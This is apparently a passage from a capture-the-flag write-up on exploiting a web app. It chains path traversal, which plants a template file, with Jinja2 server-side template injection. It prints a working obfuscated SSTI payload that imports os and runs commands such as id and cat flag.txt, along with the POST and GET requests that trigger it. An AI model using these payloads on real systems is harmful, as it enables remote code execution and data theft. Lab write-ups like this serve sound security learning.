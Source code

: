 **Sample SSTI Payload:**
```
{{request|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
- This payload walks up the Jinja2 object graph, imports Python's `os` module, executes the unix `id` command, and returns its output.
- The entire payload length was adjusted so it fit the 128-character filename limit and the 512-character input limit.

### D. Confirming File Creation

- Submitted content via `/new` with POST containing the malicious path-and-SSTI payload.
- Application saved content as HTML file at:
  ```
  static/..\\templates\\errors\\errorname-<randomtoken>.html
  ```
- On redirect, noted the specific filename with the generated token.

### E. Triggering the SSTI

- Accessed the web app with an `error` parameter matching the newly crafted template name:
  ```
  /?error=errorname-<randomtoken>
  ```
- SSTI payload executed, outputting results of the `id` command in the web interface, confirming arbitrary code execution.

### F. Locating and Retrieving the Flag

- Modified the code execution payload to run `ls`, which revealed the existence of `flag.txt`.
- Further modified the payload to:
  ```
  ... {{request|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag.txt')|attr('read')()}}
  ```
- Again accessed via `/index.html?error=errorname-<randomtoken>`, resulting in the application reading and displaying the contents of `flag.txt` directly in the browser – the intended flag for the CTF.

---

## 5. Output / Payloads and Command Results

**Test Bad Input:**
```bash
POST /new with content: "test_payload_/"
→ redirects to /?error=bad_content
```
**Oversized Input:**
```bash
POST /new with content: <513 chars>
→ redirects to /?error=long_content
```
**Malicious File Write (path traversal + SSTI):**
```bash
POST /new with content: "..\\templates\\errors\$$padded-a]{{request|attr('\x5f\x5f...')}}"
→ creates file: static/..\\templates\\errors\$$padded-a]{{payload}}-<token>.html
→ redirects to new HTML file
```
**Trigger SSTI:**
```bash
GET /?error=[template_name]-<token>
→ displays output of injected command (`id`, `ls`, or `cat flag.txt`)
```

